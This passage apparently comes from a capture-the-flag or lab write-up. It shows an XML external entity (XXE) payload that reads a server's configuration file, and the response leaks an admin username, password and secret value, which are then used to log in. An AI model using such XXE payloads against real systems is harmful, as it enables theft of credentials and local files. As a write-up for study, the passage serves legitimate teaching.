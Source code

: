 ```http
HTTP/1.1 401 Unauthorized
Date: Tue, 14 Jun 2022 11:05:49 GMT
Server: Apache/2.4.52 (Ubuntu)
Content-Length: 541
Content-Type: text/html; charset=UTF-8

user test or password  is incorrect

please check for errors in your request: 

<?xml version="1.0"?>
<!DOCTYPE replace [
<!ENTITY xxe SYSTEM "/var/www/html/conf.xml">
]>
<document>
<user>test</user>
<pass>
<document>
<credentials>
<user>admin</user>
<pass>Continu321!</pass>
</credentials>
<secret>
455b114503f70382f3ccd427ef45972cd2d35c41ee5abb2173d67d3ec54814f2
</secret>
</document>
</pass>
</document>
```

Now we have the username, `admin` and the password, `Continu321!`. We also have a secret value, `455b114503f70382f3ccd427ef45972cd2d35c41ee5abb2173d67d3ec54814f2`, that it isn't yet clear what it is for.

After logging in, we have access to a dashboard that lets us read logs. The running commands functionality is disabled:

